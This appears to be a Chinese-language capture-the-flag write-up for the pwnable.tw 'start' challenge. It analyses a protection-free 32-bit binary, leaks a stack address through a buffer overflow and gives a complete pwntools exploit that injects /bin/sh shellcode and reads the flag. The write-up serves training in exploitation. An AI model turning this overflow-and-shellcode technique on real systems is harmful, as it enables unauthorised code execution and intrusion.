




## Beacon

先檢查檔案類型，是個 32 位元的 ELF 檔案。

```zsh
➜ file start
start: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), statically linked, not stripped
```

保護機制全都沒有開。

```zsh
➜ checksec --file=start
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   8 Symbols         No    0               0               start
```

```zsh
gef➤  checksec
[+] checksec for '/home/yuto/pwnable_tw/start/start'
Canary                        : ✘
NX                            : ✘
PIE                           : ✘
Fortify                       : ✘
RelRO                         : ✘
```

執行看看觀察程式的行為，會有一個輸入，接著就結束程式了。同時可以發現在輸入 20 個 A 時，程式會 segmentation fault，代表可能有 stack buffer overflow 的漏洞可以利用。

```zsh
➜ ./start
Let's start the CTF:aaaaaaaaaaaaaaaaaaaa
[1]    81889 segmentation fault (core dumped)  ./start
```

## Analysis

用 radare2 嘗試分析程式

```
r2 -AAA start
[0x08048060]> afl
0x08048060    1     61 sub.entry0_8048060
```

可以看到只有一個函式 `sub.entry0_8048060` 在記憶體位址 `0x08048060`。

### Program flow

反組譯的程式碼中，很明顯地可以看到程式一開始印出的字串 `Let's start the CTF:`，同時也可以看到最下方有透過 `int 0x80` 進行兩次系統呼叫。


> radare2 反組譯的程式碼

| syscall | eax | arg0(ebx)       | arg1(ecx)       | arg2(edx)    |
| ------- | --- | --------------- | --------------- | ------------ |
| read    | 3   | unsigned int fd | char *buf       | size_t count |
| write   | 4   | unsigned int fd | const char *buf | size_t count |
> 系統呼叫表

因此兩次的系統呼叫大致如下：

```c
write(1, "Let's start the CTF:", 20);
read(0, buf, 60);
```

### Memory

整個程式的 stack 使用狀況如下：



## Vuln

目標是注入 shellcode 並覆蓋 return address 控制執行流程。但是目前對於記憶體位址的資訊不足，因此要想辦法先 leak 出 stack 的記憶體位址，然後再跳到 shellcode。

可以發現程式碼的部分在傳遞 `write` 的 `buf` 參數時，是直接把 `esp` 丟進去，所以剛好可以利用 `write` 來印出儲存在 stack 裡 `esp` 的記憶體位址，程式流程大致如下：

1. 輸入 `b"A" * 20 + write_addr`
2. stack 的內容被復原，程式執行 `ret`，此時 `esp` 指向的位址中是前一個 `esp` 的值
3. 跳回 write 的 `int 0x80` 那一行（`0x08048087`），印出前一個 `esp`

而接下來執行的 `read()` 也是把 `esp` 當作 `buf` 的指標，就可以在此時把 shellcode 送進 stack。但要注意的是，在程式執行 `ret` 前會先執行 `add esp, 0x14`，因此複寫 return address 的位址要在那之後。



> - `esp` 是第一次執行時的 stack pointer
> - `prev esp` 是第一次執行時的前一個 stack pointer
> - `write esp` 是覆蓋 retrun address 後，執行 `ret` 後的 stack pointer
> - `read esp` 是呼叫 `read()` 時的 stack pointer，同上

最後再用一點簡單的 shell 魔法，就可以順利拿到 flag 了。

```zsh
find / -name flag | xargs cat
```

## Exploit

```py
from pwn import *
import sys

BINARY = "./start"
REMOTE = "chall.pwnable.tw:10000"
DEBUG = len(sys.argv) > 1 and sys.argv[1] == "debug"

context.arch = "i386"
context.os = "linux"
context.terminal = ["tmux", "splitw", "-h"]
context.log_level = "info"

# setup gdb scripts
GDBSCRIPT = """
b _start
"""


def connect():
    if DEBUG:
        return gdb.debug(BINARY, gdbscript=GDBSCRIPT)
    else:
        host, port = REMOTE.split(":")
        return remote(host, int(port))


write_addr = 0x08048087
shellcode = asm("""
    xor     eax, eax
    push    eax
    push    0x68732f2f
    push    0x6e69622f
    mov     ebx, esp
    xor     ecx, ecx
    xor     edx, edx
    mov     al , 0xb
    int     0x80
    """)


def exploit(io):
    payload = b"A" * 20 + p32(write_addr)
    io.sendafter(b":", payload)
    prev_esp = u32(io.recv(4))
    info("prev_esp: " + hex(prev_esp))
    io.recv()

    payload = b"A" * 20 + p32(prev_esp + 20) + shellcode
    io.send(payload)

    io.sendline(b"find / -name flag | xargs cat")

    flag = io.recvline().strip()
    success("flag: " + flag.decode())

    io.close()


if __name__ == "__main__":
    io = connect()
    try:
        exploit(io)
    finally:
        io.close()
```

最終執行的結果：

